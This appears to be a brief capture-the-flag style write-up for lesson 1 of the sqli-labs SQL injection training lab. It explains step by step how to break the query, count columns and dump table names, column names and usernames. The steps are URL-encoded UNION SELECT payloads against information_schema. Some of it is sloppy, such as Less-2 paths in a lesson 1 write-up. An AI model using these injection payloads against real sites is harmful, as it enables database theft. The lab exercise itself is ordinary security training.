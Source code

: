 __sqli-labs lesson ```1```__

__desc__

 In this challenge we have to dump all the details from the database 

 
 __solution__
  first we have to pass the __```id```__ parameter adn pass a numeric value,the we have to fuzz through 
  the id paramete and find the sqli
  when we pass ```'``` we can break the qurey and by adding ```--+``` after we can complete the query
  the we can find the number of table using ```order by``` up to some number
  * ```/?id=-1%27%20order by ```
  
  
 * ```/?id=-1%27%20union%20select%201,group_concat(table_name),3%20from%20information_schema.tables%20where%20table_schema=database()--+```
  
  
 * ```/Less-2/?id=-1%27%20union%20select%201,group_concat(column_name),3%20from%20information_schema.columns%20where%20table_name=%27uagents%27--+```
 
 *```Less-2/?id=%27-1%27%20union%20select%201,group_concat(username),3%20from%20users--+```
